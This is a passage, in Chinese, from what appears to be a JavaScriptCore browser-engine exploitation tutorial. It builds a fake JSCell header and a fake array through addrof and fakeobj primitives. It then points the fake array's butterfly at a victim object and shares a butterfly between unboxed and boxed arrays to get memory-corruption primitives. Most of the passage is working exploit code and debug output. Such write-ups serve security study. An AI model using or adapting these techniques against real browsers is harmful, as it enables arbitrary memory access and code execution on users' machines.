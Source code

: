 重新伪造对象，这一次我们伪造的是对象数组
```javascript
buf = new ArrayBuffer(8);
u32 = new Uint32Array(buf);
f64 = new Float64Array(buf);

u32[0] = 0x200; // Structure ID

// Flags for ArrayWithDoubles
u32[1] = 0x01082007 - 0x10000; 
var flags_arr_double = f64[0];

// Flags for ArrayWithContiguous
u32[1] = 0x01082009 - 0x10000; 
var flags_arr_contiguous = f64[0];

var outer = {
    cell_header: flags_arr_contiguous,
    butterfly: victim,
    x: 13.37,
};

f64[0] = addrof(outer);
u32[0] += 0x10;
var real_fake = fakeobj(f64[0]);
```

unbox数组就是依旧使用浮点数存储的数组，并没有在`0000`添加标志位，box数组由于浮点数，整数，指针并存，所以需要添加标志位
```javascript
var unboxed = [13.37, 13.37, 13.37, 13.37, 13.37, 13.37, 13.37, 13.37, 13.37, 13.37, 13.37]
print(describe(unboxed));
// Object: 0x7fffade90050 with butterfly 0x7ff0000e0010 (Structure 0x7fffaf4f2ca0:[Array, {}, CopyOnWriteArrayWithDouble, Proto:0x7fffaf4c80a0]), StructureID: 103

unboxed[0] = 4.2
print(describe(unboxed));
// Object: 0x7fffade90050 with butterfly 0x7ff000038008 (Structure 0x7fffaf4f2a70:[Array, {}, ArrayWithDouble, Proto:0x7fffaf4c80a0]), StructureID: 98

var boxed = [{}];
print(describe(boxed));
// Object: 0x7fffade90060 with butterfly 0x7ff0000be8e8 (Structure 0x7fffaf4f2ae0:[Array, {}, ArrayWithContiguous, Proto:0x7fffaf4c80a0]), StructureID: 99
```

把`unboxed`赋值给`real_fake[1]`，`real_fake`的butterfly为`victim`，所以`real_fake[1]`就是`victim`的butterfly，此时`victim[1]`就是`unboxed`的butterfly，我们记录这个butterfly
```javascript
real_fake[1] = unboxed;
tmp_unbox_butterfly = victim[1];
```

把`boxed`赋值给`real_fake[1]`，但这次我们不获取`boxed`的butterfly，而是将`unboxed`的butterfly赋值给它的butterfly
```javascript
real_fake[1] = boxed;
victim[1] = tmp_unbox_butterfly;
```
